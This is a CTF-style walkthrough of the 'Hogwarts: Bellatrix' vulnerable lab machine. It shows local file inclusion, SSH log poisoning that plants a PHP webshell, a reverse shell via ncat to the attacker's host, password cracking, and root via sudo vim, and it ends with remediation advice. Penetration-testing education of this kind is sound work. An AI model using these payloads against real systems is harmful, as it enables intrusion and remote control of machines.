





# Hogwarts: Bellatrix — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.31 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/hogwarts-bellatrix-vulnhub-walkthrough/) |

## Attack Summary

Hogwarts: Bellatrix combines a Local File Inclusion (LFI) vulnerability with SSH log poisoning to achieve Remote Code Execution, followed by credential discovery through a hidden wordlist, and privilege escalation via `sudo vim` (GTFOBins).

## Methodology

1. Host discovery with netdiscover
2. Port scan — SSH (22) and HTTP (80)
3. Web source analysis revealing PHP `include` vulnerability
4. LFI confirmed via `ikilledsiriusblack.php?file=` parameter
5. SSH log poisoning to achieve RCE
6. Reverse shell as `www-data`
7. Credential harvesting from hidden file
8. Hash cracking with John the Ripper
9. Privilege escalation via `sudo vim`

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Target at **192.168.1.31**.

### Port Scan

```bash
nmap -sC -sV -p- 192.168.1.31
```



| Port | Service |
|---|---|
| 22/tcp | OpenSSH |
| 80/tcp | HTTP |

## Step 2: Web Enumeration

Browse to `http://192.168.1.31/`. The page source contains an HTML comment hinting at a hidden path. The PHP source uses `include($_GET['file'])` — a clear LFI indicator.

Navigating to `ikilledsiriusblack.php` confirms it accepts a `file` parameter.

## Step 3: Local File Inclusion

```bash
# Test LFI with /etc/passwd
curl "http://192.168.1.31/ikilledsiriusblack.php?file=/etc/passwd"
```



`/etc/passwd` content returned — LFI confirmed.

Also test reading the SSH auth log:

```bash
curl "http://192.168.1.31/ikilledsiriusblack.php?file=/var/log/auth.log"
```

SSH authentication log is readable — log poisoning is possible.

## Step 4: SSH Log Poisoning

Inject a PHP webshell payload as the SSH username. The invalid login attempt writes the payload to `/var/log/auth.log`:

```bash
ssh '<?php system($_GET["c"]); ?>'@192.168.1.31
# Enter any password (login will fail — that is expected)
```



Verify code execution via the LFI:

```bash
curl "http://192.168.1.31/ikilledsiriusblack.php?file=/var/log/auth.log&c=id"
# Expected: uid=33(www-data)
```

## Step 5: Reverse Shell

Start a listener:

```bash
nc -lvp 1234
```

Trigger the reverse shell through the poisoned log:

```bash
# URL-encode the payload and send via curl or browser
curl "http://192.168.1.31/ikilledsiriusblack.php?file=/var/log/auth.log&c=ncat+-e+/bin/bash+192.168.1.2+1234"
```



Shell received as `www-data`. Stabilize:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## Step 6: Credential Harvesting

Browse the web root and home directories recursively. A Base64-encoded directory name contains two files:

```bash
# Decode the directory name to find it
find / -name ".secret.dic" 2>/dev/null
find / -name "Swordofgryffindor" 2>/dev/null
```

- `.secret.dic` — a custom wordlist
- `Swordofgryffindor` — contains a password hash for user `lestrange`

Copy the hash to the attacker machine and crack it:

```bash
john --wordlist=.secret.dic lestrange.hash
```

Cracked password: **ihateharrypotter**

## Step 7: Switch to lestrange

```bash
su lestrange
# Password: ihateharrypotter
```

## Step 8: Privilege Escalation — sudo vim

Check sudo permissions:

```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/vim
```

Escalate to root using the GTFOBins `vim` technique:

```bash
sudo vim -c ':!/bin/sh'
```

A root shell is spawned.

## Step 9: Root Flag

```bash
cd /root
cat flag.txt
```



## Lessons Learned

- PHP `include` with unvalidated user input is a critical LFI vulnerability.
- When SSH auth logs are world-readable and an LFI exists, log poisoning enables full RCE.
- A hidden wordlist specific to the application is often the best cracking dictionary.
- `sudo vim` without a password is trivially exploitable via GTFOBins.

## Remediation

| Vulnerability | Fix |
|---|---|
| LFI via `include($_GET['file'])` | Validate and whitelist file paths; never pass raw GET params to `include` |
| Readable SSH auth logs | Restrict `/var/log/auth.log` permissions to root only |
| `sudo vim` NOPASSWD | Remove the sudo rule; assign minimal required privileges |
| Weak user password | Enforce strong passwords; do not use fiction references |
